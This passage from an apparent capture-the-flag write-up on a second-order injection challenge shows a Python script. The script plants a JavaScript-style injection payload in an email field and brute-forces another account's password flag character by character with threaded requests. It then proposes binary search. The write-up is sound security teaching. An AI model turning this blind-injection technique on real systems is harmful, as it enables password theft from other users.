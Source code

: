 ``` py
  payload = f'not@not_exist.ext" || (this.password.startsWith("INTIGRITI") && this.password[{index}] === "{char}" ) && "" == "'

  name = 'account_flag_'  + char

  session.post(LOGIN_URL, data={
    "username": name,
    "password": name
  })
  session.post(EDIT_URL, data={
    "email": payload
  })

  resp = requests.get(QUERY_URL + name)
  if resp.status_code != 200:
    return False

  if resp.text == 'null' or resp.text == '[]\n':
    return False

  return char

print("leaking flag")
flag = "INTIGRITI{"
current = len(flag)
while len(flag) == 0 or flag[-1] != '}':
  should_break = False
  with concurrent.futures.ThreadPoolExecutor(max_workers=30) as executor:
      futures = {executor.submit(leak_flag, current, c): c for c in charset}
      for future in concurrent.futures.as_completed(futures):
          index = futures[future]
          data = future.result()
          if data != False and not should_break:
            flag += data
            should_break = True
            print(current, flag)
  current += 1

print("done")
exit()
```

![leak char by char](/img/intigriti-0123-second-order-injection/p2.png)

It takes around 10~15s to leak one character.

Can we go faster? Sure!

## Binary search to the rescue

It's boolean-based injection, the result is either found or not found, we can apply binary search to make it way faster.
